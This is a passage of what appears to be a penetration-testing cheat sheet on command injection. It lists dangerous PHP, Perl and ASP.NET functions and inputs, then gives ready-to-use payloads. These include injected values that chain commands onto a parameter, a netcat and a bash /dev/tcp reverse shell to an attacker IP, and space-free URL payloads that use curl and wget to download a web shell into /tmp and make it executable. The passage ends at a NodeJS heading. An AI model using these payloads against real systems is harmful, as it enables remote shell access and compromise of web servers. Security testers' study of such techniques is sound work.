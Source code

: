 
**PHP**

{% highlight PHP %}
system
shell_exec
exec
proc_open
eval
passthru
proc_open
expect_open
ssh2_exec
popen
{% endhighlight %}

**Perl**

{% highlight Perl %}
CGI.pm
referer
cookie
ReadParse
{% endhighlight %}

**ASP.NET**

{% highlight bash %}
HttpRequest.Params
HttpRequest.Url
HttpRequest.Item
{% endhighlight %}


> **Exploit Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello

#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 

#Alternative without spaces
http://victim/file?arg=$(CMD=$'curl\x20http://[AttackerIP]/shell.php\x20--output\x20/tmp/Notshell.php';$CMD)
http://victim/file?arg=$({wget,http://[AttackerIP]:[AttackerPort]/t,-O,/tmp/t})
http://victim/file?arg=$({chmod,+x,/tmp/t})
{% endhighlight %}

> **NodeJS Code Injection**

Look for javascript errors in output with sqli or xss test strings:
